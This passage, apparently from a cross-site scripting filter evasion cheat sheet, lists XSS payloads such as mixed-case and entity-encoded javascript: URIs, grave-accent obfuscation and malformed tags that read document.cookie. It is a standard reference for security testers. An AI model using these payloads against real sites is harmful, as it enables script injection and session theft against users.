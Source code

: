 No Quotes and no Semicolon
--------------------------

`<IMG SRC=javascript:alert('XSS')>`

Case Insensitive XSS Attack Vector
----------------------------------

`<IMG SRC=JaVaScRiPt:alert('XSS')>`

HTML Entities
-------------

The semicolons are required for this to work:

`<IMG SRC=javascript:alert(&quot;XSS&quot;)>`

Grave Accent Obfuscation
------------------------

If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string - this is also useful because lots of cross site scripting filters don’t know about grave accents:

```
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```

Malformed A Tags
----------------

Skip the HREF attribute and get to the meat of the XXS… Submitted by David Cross ~ Verified on Chrome

`\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>`

or Chrome loves to replace missing quotes for you… if you ever get stuck just leave them off and Chrome will put them in the right place and fix your missing quotes on a URL or script.

`\<a onmouseover=alert(document.cookie)\>xxs link\</a\>`

Malformed IMG Tags
------------------

Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tags:

`<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>`

fromCharCode
------------

If no quotes of any kind are allowed you can `eval()` a `fromCharCode` in JavaScript to create any XSS vector you need:

